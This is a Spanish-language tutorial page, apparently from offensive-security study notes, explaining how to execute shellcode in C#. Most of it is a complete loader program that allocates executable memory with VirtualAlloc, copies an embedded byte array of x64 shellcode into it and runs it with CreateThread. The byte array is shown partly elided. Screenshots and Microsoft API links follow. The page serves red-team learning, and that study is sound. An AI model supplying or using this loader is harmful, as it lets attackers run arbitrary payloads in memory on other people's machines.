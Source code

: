 # Shellcode Execution C\#

Consiste en crear un nuevo proceso .exe, en el cual vamos a ejectuar nuestra shellcode.&#x20;

Para esto vamos a:

* reservar un espacio en memoria del tamaño de la shellcode
* copiar la shellcode al espacio creado
* ejecutar lo que tengamos en la direccion de memoria creada
* no cerrar el programa después de ejecutar el programa



## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ConsoleApp2
{

    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds);

        public const uint MEM_COMMIT = 0x00001000;
        public const uint MEM_RESERVE = 0x00002000;

        public const uint PAGE_EXECUTE_READWRITE = 0x40;

        static void Main(string[] args)
        {
            byte[] buf = new byte[650] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x51,0x48,0x8b,0x52,0x18,0x56,0x48,
                0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
                                                  . . . 
                0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,
                0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,
                0xb5,0xa2,0x56,0xff,0xd5
             };

            // Crear un espacio en la memoria para guardar el shelloce
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)buf.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

            // Copiar el Shellcode al espacio de memoria creado
            Marshal.Copy(buf, 0, addr, buf.Length);

            // Crear un thread (hilo) que ejecute el shellcode en el espacio de memoria creado
            IntPtr thread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            // No cerrar el programa 
            WaitForSingleObject(thread, 0xFFFFFFFF);

        }
    }
}
```
{% endcode %}



### Pasos

1.  Crear espacio en memoria con VirtualAlloc&#x20;

    <div align="left">

    <figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

    </div>
2. Copiar a este espacio de memoria la shellcode&#x20;

<div align="left">

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

</div>

3. Ejecutar la shellcode con CreateThread

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

### Funciones

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc" %}

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-7.0" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject" %}





##

###

